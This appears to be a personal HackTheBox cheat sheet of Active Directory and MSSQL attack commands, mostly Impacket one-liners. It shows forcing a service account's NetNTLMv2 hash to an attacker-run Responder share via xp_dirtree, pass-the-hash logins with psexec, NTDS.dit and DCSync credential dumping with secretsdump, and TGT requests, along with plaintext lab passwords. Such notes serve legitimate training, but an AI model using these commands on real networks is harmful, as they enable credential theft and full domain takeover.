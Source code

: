 ```
impacket-mssqlclient publicuser:GuestUserCantWrite1@sequel.htb
```
#### Intercept hash of user running MSSQL
##### xp_dirtree fake share
```
xp_dirtree \\10.10.14.8\fake\share
```

On Kali, set up responder 
##### Responder
```
sudo responder -I tun0
```

Execute xp_dirtree command and catch the sql_svc hash
![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250526212929.png]]
- Crack this NetNTLMv2 hash using hashcat and rockyou.txt (hashcat autodetected the hash mode to use)
### psexec.py
Login with NT Hash
```
psexec.py -hashes <NT HASH>:<NT HASH> administrator@10.10.11.236
```

Login with password
```
impacket-psexec monteverde.htb/administrator:'d0m@in4dminyeah!'@10.10.10.172
```
### secretsdump.py

Dump hashes and secrets, password history, and when password was last set
```
secretsdump.py -user-status -history -pwd-last-set administrator.htb/ethan@10.10.11.42
```
- paste in password

Dump ntds.dit using system boot key
```
secretsdump.py local -system system -ntds ntds.dit 
```

Use secrets dump when user has DCSync in BloodHound
```
impacket-secretsdump egotistical-bank.local/svc_loanmgr@10.10.10.175
```
### Kerberoasting 

#### impacket-getTGT
Get TGT using svc account creds
```
impacket-getTGT active.htb/svc_tgs:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100
```
